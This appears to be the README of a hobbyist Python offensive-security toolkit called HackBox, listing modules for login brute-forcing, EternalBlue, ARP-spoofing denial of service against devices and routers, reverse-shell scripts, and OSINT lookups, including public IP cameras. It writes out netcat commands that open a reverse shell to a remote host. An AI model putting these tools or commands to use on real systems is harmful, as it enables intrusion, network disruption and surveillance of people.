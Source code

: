 Beta 1.1 - Functional, with new modules, but not production ready - explore the Proof Of Concept branch for latest updates!

Disclaimer! This software is provided for educational use only! I do not take responsibility for any illegal, malicious, or unethical acts performed using this software!

Note: I am learning python while making this program, do not assume in any way shape or form that this software is secure, reliable, or safe to have on your system. Use at your own risk!



Alright now to the fun stuff:

### Attack Mode: For offensive security <br/>
- ####   System Access: All Sorts of ways to get into a system! <br/>
    -- Protocol Cracker: A hydra based bruteforce program to brute force logins, Note!: It is fairly slow and is best to use on simple/default passwords only<br/> 
    
    -- EternalBlue: This is the infamous eternal blue exploit, it works on windows 7, and 10 (provided you can get a payload that avoids Windows Defender). <br/>


    --  AutoTack: An automated scanner, and attacker! <br/>
        -- AutoTack is a combination of everyhing in HackBox. It uses other modules code (such as protocol cracker) to scan, store and attack targets automatically. Currently, only bruteforce attacks are supported, but more are coming!

- ####   Denial of Service: Preventing people from being productive <br/>
    -- MITM ArpSpoof: A dsniff powered tool that will perform a MITM Arp attack, denying any internet to the selected device  
            Pro Tip: This works on routers too...  with varying effects. Have fun! (Use the router's IP as the target address) 

- ####   Script Runner: A module with preconfigured security scripts! <br/>
    -- A spare shell version of ArpSpoof is here (It was originally coded in bash then converted to python)
    -- fail2ban.sh: An interactive fail2ban install & setup script.
    -- reverse_shell scripts: any script with 'rev_shell' on it sets up a reverse shell, each with a different method  

### Defense Mode <br/>
    -- A work in progress, nothing here yet, but some to come in future updates

### Recon Mode: For reconnaissance <br/>
- ####   Surveillance: A set of modules based around Open Source Intellegence (OSINT) <br/>
    -- IP-CAM: A collection of publicy accessible cameras in hundreds of countries 
    -- UserCheck: A simple module that will check where a username is being used 

- 



## Remote Access
- Through netcat, you can forward a remote HackBox instance to your local machine, no install needed!
    To do this, on your Host machine, run nc -e ./HackBox.py IPADDRESS PORT
    Then on your local machine, run nc -nvlp PORT
    A hackbox instance should then appear on screen
    Note: Local attacks shouldn't work if doing this, as HackBox is running on the Remote Machine, not locally
    Note pt 2: This essentially opens a reverse shell on your machine... so be incredibly careful when doing this
